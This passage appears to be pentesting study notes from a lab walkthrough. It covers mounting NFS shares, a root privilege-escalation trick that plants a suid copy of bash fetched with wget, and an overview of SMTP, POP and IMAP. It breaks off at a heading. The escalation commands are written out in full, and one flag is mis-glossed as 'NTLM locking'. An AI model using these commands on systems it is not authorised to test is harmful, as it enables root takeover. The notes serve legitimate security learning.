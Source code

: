 After identifying the NFS port, we can try to access it by mounting the share on our end.
```
mkdir /mnt/{NFS_NAME}
sudo mount -t nfs IP:SHARE_NAME /mnt/{NFS_NAME}/ -nolock

//explanation
 -t nfs -- type of device to mount is NFS 
-nolock - Specifies not to use NTLM locking
```

After you're done with the NFS drive,  we can unmount it by;
```
sudo umount /mnt/{SHARE_NAME}
```

### Exploiting NFS 
If we can view a home directory of one user from the NFS share,we can actually transfer any of our own binaries and use it for priv esc.

For example, we can transfer a static binary of bash , give it suid permissions for the root user and we can use `bash -p` to spawn a root shell.

We can get the static binary by;
```
wget https://github.com/polo-sec/writing/raw/master/Security%20Challenge%20Walkthroughs/Networks%202/bash

cp bash /mnt/{SHARE_NAME}
sudo chown root:root /mnt/{SHARE_NAME}/bash
sudo chmod +s /mnt/{SHARE_NAME}/bash
```

Then, you can log in as the user and then run `bash -p`.

### SMTP
- Simple Mail Transfer Protocol
- It is utilised to handle the sending of emails.
- In order to support email services, a protocol pair is required, comprising of SMTP and POP/IMAP. Together they allow the user to send outgoing mail and retrieve incoming mail, respectively.

The SMTP server performs three basic functions:

-    It verifies who is sending emails through the SMTP server.
-    It sends the outgoing mail
-    If the outgoing mail can't be delivered it sends the message back to the sender

POP (Post Office Protocol) and IMAP(Internet Message Access Protocol) are both email protocols who are responsible for ther transfer of email between a client and a mail server.

 The main differences is in POP's more simplistic approach of downloading the inbox from the mail server, to the client. Where IMAP will synchronise the current inbox, with new mail on the server, downloading anything new. This means that changes to the inbox made on one computer, over IMAP, will persist if you then synchronise the inbox from another computer. The POP/IMAP server is responsible for fulfiling this process.

### How SMTP works.
